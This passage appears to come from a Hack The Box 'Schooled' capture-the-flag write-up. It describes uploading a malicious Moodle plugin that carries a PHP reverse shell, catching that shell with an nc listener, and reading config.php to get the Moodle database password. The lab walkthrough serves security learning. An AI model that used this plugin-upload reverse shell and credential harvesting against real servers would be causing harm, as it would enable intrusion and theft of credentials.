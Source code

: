We can choose on```Lianne Carter``` user which is also a manager - so we need to add this user to the course.

2. Unzip the [rce.zip](./rce.zip) and put [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) instaed of ```block_rce.php``` code.

3. Browse to: [http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id](http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id)

After the ```PHP``` reverse shell is executed we get a shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from schooled.htb [10.10.10.234] 34825
FreeBSD Schooled 13.0-BETA3 FreeBSD 13.0-BETA3 #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021     root@releng1.nyi.freebsd.org:/usr/obj/usr/src/amd64.amd64/sys/GENERIC  amd64
12:40AM  up 49 mins, 0 users, load averages: 0.59, 0.60, 0.54
USER       TTY      FROM    LOGIN@  IDLE WHAT
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ 

```

By enumerating on ```/usr/local/www/apache24/data/moodle``` directory we can see the file ```config.php```:
```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```
